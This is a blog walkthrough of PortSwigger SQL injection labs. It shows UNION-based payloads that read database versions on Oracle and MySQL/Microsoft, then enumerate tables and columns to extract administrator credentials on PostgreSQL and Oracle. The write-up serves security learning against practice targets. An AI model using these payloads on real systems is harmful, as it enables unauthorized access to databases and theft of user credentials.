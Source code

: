```yaml
---
layout: post
title:  "Examining the database in SQL injection attacks - Portswigger Walkthrougs"
date:   2022-11-11 09:00:21 +0200
author: Clara Hällgren
---
```


Knowing the database type and version is often key to successfully exploit an SQLi vulnerability. This is done
differently on different databases, as they have different commands to retrieve that data. In these labs we will view
how you can gain type and version knowledge via SQLi.

## LAB: SQL injection attack, querying the database type and version on Oracle

In this lab, we will exploit a SQLi vulnerability in the product category filter with a UNION attack. The objective is
to display the database version string. From the title we know that it is an oracle database which means we need to use
"SELECT banner FROM v$version" according to Portswiggers SQLi cheat sheet. 

Step 1: I use the ORDER BY method to determine how many columns are mandatory to use the UNION command. The result is 2.
I do this by adding 'ORDER BY 3-- to the request which gives me an error, although if I change the 3 to a 2, I don't get an error
and my magic number is 2.

Step 2: Now I need to determine which of the two columns that can hold a string. I do this with the 
'UNION+SELECT+null,null+FROM+v$version-- and change the two null values to strings one after the other. The first position
can hold a null value, so I use that one. 

Step 3: the attack can now be formed, and I send this request: 

    GET /filter?category=Accessories'UNION+SELECT+banner,null+FROM+v$version--

Which solves the lab. 

If you don't understand why I did what I did, I recommend reading my previous post on SQLi Union attacks.

## LAB: SQL injection attack, querying the database type and version on MySQL and Microsoft

This is the same thing as the previous lab except that the database is no longer Oracle which means we need to 
turn to the cheat sheet again to view the syntax for Microsoft and MySQL. I happen to know that they have the exact same 
syntax for version requests. Aka: SELECT @@version. They also both use the double-dash to comment out any lines, with one important
difference: MySQL requires a space after the double dash. 

Step 1: I use ORDER BY method again. But this time I get an error even when the number is set to one. I realise that the space after
the double-dash is needed and that it probably will be cut away if I don't add anything after it. Therefore, I simply add a space
and some random letters after it which gives me what I want. The magic number is 2 also in this case.

Step 2: This is the same as in step two of the previous lab. Except that you need to add the "-- abc" just like in step one.
The first position can hold a string so I go with that one. 

Step 3: The attack can be formed according to step 1 and 2 + the knowledge from the cheat sheet. This solves the lab:

    GET /filter?category=Lifestyle'UNION+SELECT+@@version,null--+abc

## LAB: Listing the database contents on non oracle databases

Most database types, except oracle hence the lab name, have views that provide database information. This is called the information
schema which can be queried with SELECT * FROM information_schema.tables which returns the table names. Once you have the
table names, you can query SELECT FROM information.schema.columns WHERE table_name ='Users' for example, and get the column 
information of that table. The objective of this lab is to log in as the administrator. 

Step 1: I figure out that I need to query 2 columns and both can hold strings with the ORDER BY method and NULL method. 
I determine the database type as in the previous labs and note that it is a PostgreSQL database that we are dealing with. 

Step 2: I use the above-mentioned query, and it fails if I use the '*' (aka all) sign. Therefore, I try with table_name instead. 
This gives me loads of table names, so I filter the results on "user" in Burp Suite and find "users_xghqki". Spen some time viewing the
table names. There are many in that list that wants to fool you.

    GET /filter?category=Gifts'UNION+SELECT+null,table_name+FROM+information_schema.tables--

Step 3: Now I query the "users_xghqki" table for its columns. This gives me two column names "username_yoipfp" and "password_jnfict".

    GET /filter?category=Gifts'UNION+SELECT+null,column_name+FROM+information_schema.columns+WHERE+table_name='users_xghqki'--

Step 4: Query the content of the columns which gives me the administrators log in credentials. Lab solved. 

    GET /filter?category=Gifts'UNION+SELECT+username_yoipfp,password_jnfict+FROM+users_xghqki--

## LAB: Listing the database contents on Oracle

Same as above but for an Oracle Database. This means we need to use different queries than above, a tip is to always 
look in the SQL cheat sheet. Let's go!

Step 1: Find out the number of columns and if they can hold strings. 2 Columns are needed and both can hold strings. Getting errors?
Remember that this is an Oracle database that requires a FROM part in the query. Oracle databases always have a table named 
dual which can be used in this case. 

    GET /filter?category=Lifestyle'UNION+SELECT+null,+null+FROM+dual--

Step 2: I look at the cheat sheet and note how to get the table names on Oracle, which gives me the table "USERS_UYKKWM".

    GET /filter?category=Lifestyle'UNION+SELECT+table_name,+null+FROM+all_tables--

Step 3: Get the column names from that table. I got USERNAME_HHQHXN and PASSWORD_ZDKKSY.

    GET /filter?category=Lifestyle'UNION+SELECT+column_name,+null+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_UYKKWM'--

Step 4: Get the content of the columns and log in as administrator. Lab solved. 
    
    GET /filter?category=Lifestyle'UNION+SELECT+USERNAME_HHQHXN,+PASSWORD_ZDKKSY+FROM+USERS_UYKKWM--

